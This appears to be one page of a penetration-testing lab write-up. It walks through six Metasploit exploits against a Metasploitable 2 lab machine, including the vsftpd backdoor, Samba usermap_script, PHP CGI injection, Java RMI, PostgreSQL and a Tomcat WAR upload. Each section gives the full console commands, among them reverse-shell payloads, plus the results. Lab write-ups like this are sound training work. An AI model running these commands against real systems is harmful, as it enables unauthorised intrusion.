



# Phase 4 — Exploitation

> **Objective:** Use vulnerabilities and credentials collected in previous phases to gain unauthorised access to the target system. Six separate exploits were demonstrated against Metasploitable 2.

---

## 1. vsftpd 2.3.4 Backdoor — CVE-2011-2523

**Service:** FTP (Port 21)  
**Module:** `exploit/unix/ftp/vsftpd_234_backdoor`

During FTP enumeration, the target was confirmed to be running **vsftpd 2.3.4** — a version containing a malicious backdoor introduced into the source code. The backdoor opens a root shell on port 6200 when a username containing `:)` is sent during authentication. The MSF module automates the entire process: sending the trigger username, connecting to the backdoor port, and registering the resulting session.

```bash
# Search for the module
search vsftpd

use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 10.0.2.7
run

# Verify access
whoami
id
uname -a
```



> **Result:** A **root-level shell** was returned immediately — no privilege escalation required. The vsftpd daemon itself runs as root, so the backdoor inherits those privileges. No payload configuration was needed as the backdoor opens a command shell natively.

---

## 2. Samba usermap_script — CVE-2007-2447

**Service:** SMB (Ports 139/445)  
**Module:** `exploit/multi/samba/usermap_script`

During Samba enumeration, the target was confirmed to be running **Samba 3.0.20** — a version vulnerable to command injection via the `username map script` configuration option.

```bash
search samba usermap

use exploit/multi/samba/usermap_script
set RHOSTS 10.0.2.7

# cmd/unix/reverse is used as Samba runs on Unix and does not support Meterpreter
set payload cmd/unix/reverse
set LHOST 10.0.2.6
set LPORT 4444
run

# Verify access
id
ifconfig
```



> **Result:** A **reverse shell** was successfully delivered.

---

## 3. PHP CGI Argument Injection — CVE-2012-1823

**Service:** HTTP (Port 80)  
**Module:** `exploit/multi/http/php_cgi_arg_injection`

During HTTP enumeration, the target was confirmed to be running **Apache 2.2.8 with PHP 5.2.4** and the CGI module enabled. This configuration is vulnerable to argument injection, where query string parameters are passed directly to the PHP interpreter, allowing arbitrary code execution.

```bash
search php_cgi_arg_injection

use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 10.0.2.7

# php/meterpreter/reverse_tcp is used as the vulnerability executes PHP on the web server
set payload php/meterpreter/reverse_tcp
set LHOST 10.0.2.6
run

# Verify access
meterpreter > sysinfo
meterpreter > getuid
```


> **Result:** A **Meterpreter session** was successfully established through the PHP CGI vulnerability on port 80.

---

## 4. Java RMI Server

**Service:** Java RMI (Port 1099)  
**Module:** `exploit/multi/misc/java_rmi_server`

During `db_nmap` scanning, the target was found to be running a **Java RMI service** on port 1099. A misconfigured Java RMI registry can allow remote class loading, enabling an attacker to execute arbitrary code on the target.

```bash
search java_rmi_server

use exploit/multi/misc/java_rmi_server
set RHOSTS 10.0.2.7
set LHOST 10.0.2.6
exploit

# Verify access
meterpreter > sysinfo
meterpreter > getuid
```



> **Result:** A **Meterpreter session** was successfully established through the Java RMI service on port 1099.

---

## 5. PostgreSQL Payload Execution

**Service:** PostgreSQL (Port 5432)  
**Module:** `exploit/linux/postgres/postgres_payload`

During `db_nmap` scanning, the target was found to be running **PostgreSQL 8.3.0–8.3.7**. The `postgres_payload` module achieves remote code execution through authenticated database access by writing a shared library to disk and loading it via PostgreSQL's `LOAD` function.

```bash
search postgres_payload

use exploit/linux/postgres/postgres_payload
set RHOSTS 10.0.2.7
set LHOST 10.0.2.6
exploit

# Verify access
meterpreter > sysinfo
meterpreter > getuid
```


> **Result:** A **Meterpreter session** was successfully delivered through the PostgreSQL service on port 5432.

---

## 6. Apache Tomcat Manager WAR Upload

**Service:** Apache Tomcat Manager (Port 8180)  
**Module:** `exploit/multi/http/tomcat_mgr_upload`

During credential discovery in Phase 3, valid Tomcat Manager credentials (`tomcat:tomcat`) were identified. The `tomcat_mgr_upload` module exploits authenticated access to the manager interface by uploading a malicious WAR file containing a Meterpreter payload.

```bash
search tomcat_mgr_upload

use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.0.2.7
set RPORT 8180

# Use credentials discovered in Phase 3
set HttpUsername tomcat
set HttpPassword tomcat
run

# Verify access
meterpreter > sysinfo
meterpreter > getuid
```


> **Result:** A **Meterpreter session** was successfully deployed through the Tomcat Manager interface using the credentials found in Phase 3.

---

## Exploitation Summary

| # | Vulnerability | CVE | Module | Session Type | Access Level |
|---|---|---|---|---|---|
| 1 | vsftpd 2.3.4 Backdoor | CVE-2011-2523 | `vsftpd_234_backdoor` | Shell | Root |
| 2 | Samba usermap_script | CVE-2007-2447 | `usermap_script` | Shell | Root |
| 3 | PHP CGI Argument Injection | CVE-2012-1823 | `php_cgi_arg_injection` | Meterpreter | www-data |
| 4 | Java RMI Server | — | `java_rmi_server` | Meterpreter | User |
| 5 | PostgreSQL Payload Execution | — | `postgres_payload` | Meterpreter | postgres |
| 6 | Tomcat WAR Upload | — | `tomcat_mgr_upload` | Meterpreter | tomcat |

---

➡️ [Phase 5 — Privilege Escalation](./05-privilege-escalation.md)
